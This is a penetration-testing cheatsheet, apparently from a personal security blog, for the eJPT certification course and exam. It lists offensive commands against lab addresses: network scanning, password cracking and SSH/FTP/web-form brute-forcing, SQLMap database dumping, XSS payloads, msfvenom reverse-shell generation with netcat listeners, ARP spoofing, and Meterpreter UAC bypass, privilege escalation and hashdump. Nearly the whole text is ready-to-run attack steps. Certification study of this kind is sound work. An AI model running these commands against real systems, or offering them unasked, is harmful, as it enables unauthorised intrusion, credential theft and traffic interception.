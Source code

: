```yaml
---
title:  "eJPT - Cheatsheet"
style: fill
color: danger
tags: [eLearnSecurity, Cheatsheet]
permalink: /blog/misc/ejpt-cheatsheet
description: This is a Cheatsheet for eJPT exam + course. Its always good to have all the commands in one place. The cheatsheet contains everything that will help you tackle the course & Exam.
---
```


### **This is a Cheatsheet for eJPT exam + course.**

## Nmap
```shell
nmap -sn 10.10.10.0/24
nmap -sV -p- -iL targets -oN nmap.initial -v
nmap -A -p- -iL targets -oN nmap.aggressive -v
nmap -p<port> --script=vuln -v <target-IP>
```

## fPing
```shell
fping -a -g 10.10.10.0/24 2>/dev/null > targets
```

## IP Route
```shell
# ip route add <Network-range> via <router-IP> dev <interface>
# eg.
ip route add 10.10.10.0/24 via 10.10.11.1 dev tap0
```

## John
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
unshadow passwd shadow > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

## dirb
```shell
dirb http://10.10.10.10/ 
dirb http://10.10.10.10/dir -u admin:admin
```

*I suggest you to use dirbuster for better speed. Keep the threads at 20. Use /usr/share/wordlists/dirb/common.txt wordlist.*

## Netcat
**Listening for reverse shell**
```shell
nc -nvlp 1234
```

**Banner Grabbing**
```shell
nc -nv 10.10.10.10 <port>
```

## SQLMap
#### Check if injection exists
```shell
sqlmap -r Post.req
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"
```

#### Get database if injection Exists
```shell
sqlmap -r login.req --dbs
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs
```

#### Get Tables in a Database
```shell
sqlmap -r login.req -D dbname --tables
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables
```

#### Get data in a Database tables
```shell
sqlmap -r login.req -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump
```

## Hydra
**SSH Login Bruteforcing**
```shell
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh
hydra -v -V -u -l root -P passwords.txt -t 1 -u 10.10.10.10 ssh
```
*You can use same for FTP, just replace ssh with ftp*

**HTTP POST Form**
```shell
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L usernames.txt -P passwords.txt -f -V
```

*You will know which wordlists to use when the time comes*


## XSS
```javascript
<script>alert(1)</script>
<ScRiPt>alert(1)</ScRiPt>
```

*This is a great filter bypass cheatsheet*\
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## msfvenom shells
**JSP Java Meterpreter Reverse TCP**
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```

**WAR**
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```

**PHP**
```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

## Metasploit Meterpreter autoroute
```shell
run autoroute -s 10.10.10.0/24
```

## ARPSpoof
```shell
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i <interface> -t <target> -r <host>
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36
```

## SMB Enumeration
**Get shares, users, groups, password policy**
```shell
smbclient -L //10.10.10.10/
enum4linux -U -M -S -P -G 10.10.10.10
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v
nmap -p445 --script=smb-vuln-* 10.10.10.10 -v

# Access Share\
smbclient //10.10.10.10/share_name
```

## FTP Enumeration
```shell
nmap --script=ftp-anon 10.10.10.10 -p21 -v
nmap -A -p21 10.10.10.10 -v

# Login to FTP server
ftp 10.10.10.10
```

## Meterpreter
```shell
ps
getuid
getpid
getsystem
ps -U SYSTEM

# CHECK UAC/Privileges
run post/windows/gather/win_privs

# BYPASS UAC
# Background the session first
exploit/windows/local/bypassuac
set session

# After PrivEsc**
migrate <pid>
hashdump
```
  
## Windows Command Line
**To search for a file starting from current directory**
```powershell
dir /b/s "*.conf*"
dir /b/s "*.txt*"
dir /b/s "*filename*"

# Check routing table
route print
netstat -r

# Check Users
net users

# List drives on the machine
wmic logicaldisk get Caption,Description,providername
```